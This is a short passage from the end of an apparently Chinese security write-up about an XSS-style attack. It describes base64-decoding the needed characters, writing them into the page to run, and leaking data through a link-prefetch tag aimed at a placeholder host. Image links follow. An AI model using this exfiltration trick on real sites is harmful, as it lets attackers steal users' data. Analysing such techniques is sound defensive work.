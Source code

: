 其中所有的敏感符号通过解base64获得，然后写入页面内执行

最后通过
```
<link rel="prefetch" href="xxxxx.xx">
```

把数据传出...

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/r67ihy6epkvcnkqvnqulsvjl/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/sgxf9gq2ni5i7osmlm17vzry/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/23ujazb8yck2rnzy9b6ow02s/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/nptyaixmrkwgizd1bce9yhe3/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2tmhyv1f575lfz6apaeg0o4q/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9tys2vihqrm3xznatpwkjzkm/image.png

